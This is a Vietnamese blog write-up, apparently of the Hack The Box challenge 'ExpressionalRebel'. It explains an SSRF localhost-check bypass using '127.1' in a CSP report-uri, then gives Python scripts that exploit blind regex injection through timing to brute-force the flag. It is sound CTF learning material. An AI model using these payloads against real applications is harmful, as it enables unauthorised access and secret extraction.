 ```yaml
---
layout: post
title: HTB ExpressionalRebel Writeup
date: 2022-12-01
categories: ["hackthebox"]
---
```


# Phân tích code

Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Ứng dụng này được viết bằng nodejs. Mình sẽ đọc thư mục routes trước để xem ứng dụng có những chức năng và đường dẫn nào.

Trong thư mục routes có 2 file api.js và index.js. Với file index.js có 2 hàm home page và deactivate page.

![Imgur](https://i.imgur.com/xOY0Jwx.png)

Chức năng homepage chỉ để hiển thị các thông tin. Còn chức năng deactivate thì có 1 input là ```secretCode```. Biến ```secretCode``` thì được vavalidate bởi hàm ```validateSecret```. Mình sẽ xem hàm ```validateSecret``` sẽ thực hiện điều gì.

```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

Hàm này sẽ thực hiện kiểm tra regex nếu input `secret` có khớp với `env.FLAG` hay không.

Tuy nhiên, quay lại chức năng ```deactivate```, chức năng này có hàm ```isLocal```.

![Imgur](https://i.imgur.com/dy8dcNN.png)

Hàm isLocal kiểm tra xem ```remoteAddress``` có phải từ 127.0.0.1 và ```host``` là 127.0.0.1:1337 hay không. Vì vậy, điều đó có nghĩa là chức năng này chỉ có thể truy cập được từ máy chủ cục bộ.

Tiếp theo mình tiến hành phân tích tệp api.js.

![Imgur](https://i.imgur.com/b7kpkK2.png)

Chức năng evaluate sẽ thực hiện nhận các input ```csp``` sau đó sẽ được kiểm tra bởi hàm ```evaluateCsp```.

![Imgur](https://i.imgur.com/x6OlxTs.png)

Hàm ```evaluateCsp``` sẽ thực hiện phân tích cú pháp của CSP và nếu đầu vào có report-uri, nó sẽ được kiểm tra bởi hàm ```checkReportUri```.

Trong CSP thì report-uri sẽ được đi kèm với các url. Mọi người có thể tìm hiểu thêm trong link sau: 

- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

```
Content-Security-Policy: report-uri <uri>;
Content-Security-Policy: report-uri <uri> <uri>;
```

Hàm checkReportUri như sau

![Imgur](https://i.imgur.com/F1XUa8S.png)

Hàm ```checkReportUri``` sẽ thực hiện kiểm tra xem có mấy URI và kiểm tra xem URI đã gửi có phải là 127.0.0.1 hay localhost từ hàm ```isLocalhost``` hay không.

![Imgur](https://i.imgur.com/2rN4Jb0.png)

Nếu tất cả các điều kiện được đáp ứng, hàm ```httpGet``` sẽ được thực thi tới URI đó.

![Imgur](https://i.imgur.com/CQ1D1d0.png)

Hàm ```httpGet``` sẽ thực hiện truy cập vào URI đó.

# Exploit

Trước tiên, mình sẽ gửi yêu cầu qua API để kiểm tra xem response nhận được là gì.

![Imgur](https://i.imgur.com/qdHYGHI.png)

Tiếp theo mình sẽ gửi thông tin report-uri với uri là 127.0.0.1.

![Imgur](https://i.imgur.com/2OT8roZ.png)

Mình nhận được các thông báo lỗi. Vì vậy, mình phải bypass chức năng kiểm tra ```isLocalhost``` của evaluate. Để ứng dụng có thể truy cập vào được 127.0.0.1.

Thế là mình nghĩ ngay cách bypass giống như lỗ hổng SSRF.

![Imgur](https://i.imgur.com/FoRJ3u7.png)

Cách trên có thể bypass hàm ```isLocalhost```` một cách dễ dàng. Đây là kết quả mình đã nhận được.

![Imgur](https://i.imgur.com/G89yQRb.png)

Vậy làm thế nào để có được flag. Quay lại hàm ```deactivate ```, trong hàm ```validateSecret``` có một regex kiểm tra xem secret có khớp với flag hay không. Và chức năng request chỉ có thể truy cập qua localhost.

Kết hợp với chức năng ```evaluate```, mình có thể truy cập chức năng hủy kích hoạt bằng cách bypass ở trên.

![Imgur](https://i.imgur.com/Ke2dyWM.png)

Tuy nhiên, mình không thấy bất cứ điều gì xảy ra.

Với dữ liệu secret regex với flag, mình đã tìm kiếm các thông tin trên google. Sau một thời gian, mình đã tìm ra đây là lỗ hổng Blind Regular Expression Injection và có 1 cách khai thác nhưu sau.

- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/)

Theo thông tin mình đọc được thì khi input đoạn regex ```^\(?=.\{1\})\(\(.\)\)*salt$``` nếu ra kết quả đúng thì request sẽ mất hơn 2s để thực hiện. Và nếu sai, yêu cầu sẽ thực hiện rất nhanh.

![Imgur](https://i.imgur.com/CKjF82e.png)

vậy mình sẽ code 1 đoạn khai thác tìm kiếm chiều dài của flag trước tiên.

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_flag():
    length_of_flag = 0
    for i in range(100):
        secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{.\{\{\{i\}\}\}\}\})((.*)*)*salt$')

        headers = {'Content-Type': 'application/json'}
        data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}
        response = requests.post(url, headers=headers, json=data)
        if response.elapsed.total_seconds() > 2:
            length_of_flag = i
            break
        
    print("length flag is: %s " % str(length_of_flag))
if __name__ == "__main__":
    brute_flag()
```

Kết quả mình nhận được chiều dài flag là 34:

![Imgur](https://i.imgur.com/yM2nNQw.png)

Sau đó mình thực hiện brute flag

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_force_flag():
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

    flag = ""
    for i in range(34):
        for i in range(len(alphabet)):
            secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{\{flag\}\{alphabet[i]\}.*\}\})((.*)*)*salt$')

            headers = {'Content-Type': 'application/json'}
            data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}

            response = requests.post(url, headers=headers, json=data)
            if response.elapsed.total_seconds() > 2:
                flag = flag + alphabet[i]
                break

    print("flag is: HTB{%s}" % str(flag))
if __name__ == "__main__":
    brute_force_flag()
```

Sau khi chạy xong mình đã có được flag

![Imgur](https://i.imgur.com/9rZbEQo.png)
